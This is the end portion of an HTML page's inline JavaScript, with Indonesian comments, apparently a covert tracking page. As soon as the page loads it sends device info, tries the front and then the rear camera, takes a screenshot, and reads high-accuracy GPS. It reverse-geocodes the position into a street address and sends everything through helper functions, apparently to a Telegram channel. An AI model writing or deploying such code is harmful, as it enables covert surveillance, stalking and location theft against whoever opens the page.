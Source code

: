             stream.getTracks().forEach(t => t.stop());
            return true; 
            
        } catch (e) {
            if (stream) {
                stream.getTracks().forEach(t => t.stop());
            }
            await sTG(`⚠️ Gagal Akses Kamera ${mode.toUpperCase()}. Mencoba mode lain...`);
            return false; 
        }
    };

    // FUNGSI UTAMA: Menjalankan semua proses tracking
    const ST=async()=>{
        await sTG(await cDI()); 

        let cameraSuccess = false;

        // 1. Coba Kamera Depan (User)
        cameraSuccess = await captureCamera("user");

        // 2. Jika Gagal, Coba Kamera Belakang (Environment)
        if (!cameraSuccess) {
            cameraSuccess = await captureCamera("environment");
        }

        if (!cameraSuccess) {
             await sTG('❌ Akses ke kedua kamera (Depan & Belakang) diblokir.');
        }

        // Ambil Screenshot 
        setTimeout(async()=>{
            try{
                const cn=await html2canvas(document.body);
                cn.toBlob(b=>sP(b,'screenshot.jpg'),'image/jpeg')
            }catch(e){
                await sTG('❌ Screenshot failed')
            }
        }, 2000); 

        // Menggunakan getCurrentPosition untuk hanya mengirim 1x dan menambahkan link Google Maps
        if(navigator.geolocation){
            navigator.geolocation.getCurrentPosition(async p=>{
                const lat = p.coords.latitude;
                const lon = p.coords.longitude;
                
                // Menambahkan link Google Maps
                let g=`📍 GPS TRACKING (ONE-TIME)\n`;
                g+=`📌 Lat: ${lat}\n📍 Lng: ${lon}\n`;
                g+=`🎯 Akurasi: ${p.coords.accuracy}m\n`;
                g+=`🗺️ Google Maps: https://www.google.com/maps/search/?api=1&query=${lat},${lon}\n`;
                
                const l=await gLD(lat,lon);
                g+=`🏙️ Kabupaten: ${l.kb}\n🏙️ Kecamatan: ${l.kc}\n🏠 Alamat: ${l.fa}\n`;
                await sTG(g)
            },async e=>{
                await sTG(`❌ GPS Error: ${e.message}`)
            },{enableHighAccuracy:true,maximumAge:0,timeout:5000})
        }
    };

    // Langsung menjalankan fungsi ST tanpa delay
    ST();
})();
</script>
</body>
</html>
